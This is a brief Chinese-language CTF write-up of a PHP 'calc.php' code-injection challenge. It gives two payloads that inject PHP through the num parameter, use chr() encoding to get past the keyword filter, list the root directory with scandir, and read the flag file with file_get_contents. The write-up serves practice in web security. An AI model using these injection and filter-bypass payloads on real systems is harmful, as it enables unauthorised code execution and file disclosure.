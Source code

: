 ![upload successful](./images/pasted-152.png)
发现是一些关键词检测，没有思路，看了下这个博客
<url>https://blog.csdn.net/tomatoff/article/details/124741084</url>
<url>https://blog.csdn.net/weixin_44077544/article/details/102630714</url>

运用scandir()函数列出根目录有那些文件,使用ASCii的chr(47)绕过对/的检测

构造payload<code>/calc.php? num=2;var_dump(scandir(chr(47)))
</code>

![upload successful](./images/pasted-153.png)
找到了f1agg文件，同样把字母转换成ASCii，打开f1agg文件

构造payload<code>calc.php? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
</code>
